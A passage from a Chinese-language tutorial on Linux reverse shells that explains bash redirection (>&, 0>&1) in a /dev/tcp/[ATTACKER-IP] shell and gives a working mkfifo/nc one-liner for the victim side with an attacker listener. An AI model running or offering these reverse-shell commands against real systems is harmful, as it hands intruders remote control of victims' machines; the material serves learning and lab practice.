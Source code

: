 关于`>&`：

```
&>word
or
>&word

Of the two forms, the first is preferred.  
    This is semantically equivalent to:

>word 2>&1

This construct allows both the standard output 
    (file descriptor 1) and the standard error 
    output (file descriptor 2) to be redirected 
    to the file whose name is the expansion of word.
```

所以`stderr`和`stdout`会被重定向到`/dev/tcp/[ATTACKER-IP]/10000`。

关于`0>&1`：

```
Redirections are processed in the order they
       appear, from left to right.
```

看下面两条指令：

```bash
# 1
ls > dirlist 2>&1
# 2
ls 2>&1 > dirlist
```

上面指令1会先把`ls`的`stdout`定向为`dirlist`文件，接着把`stderr`定向为`stdout`，所以这条指令会把`ls`的`标准输出`和`标准错误输出`都输出到`dirlist`文件。

指令2先把`ls`的`stderr`定向到`stdout`，即默认的屏幕输出；再把`stdout`定向到`dirlist`文件，所以最终只有`标准输出`会输出到`dirlist`。

类似的，`0>&1`会把`stdin`重定向到`stdout`的设备。而之前由于`>&`，所以实际上`stdin`也被重定向到`/dev/tcp/[ATTACKER-IP]/10000`。

### 0x02 反弹shell：nc

对于靶机上的`nc`能够通过`-e`方式执行shell的情况不再叙述，大部分靶机可能都不能用`-e`选项。这里考察`-e`选项不能使用的情况。

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ATTACKER-IP] 10000 >/tmp/f
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-11.png)
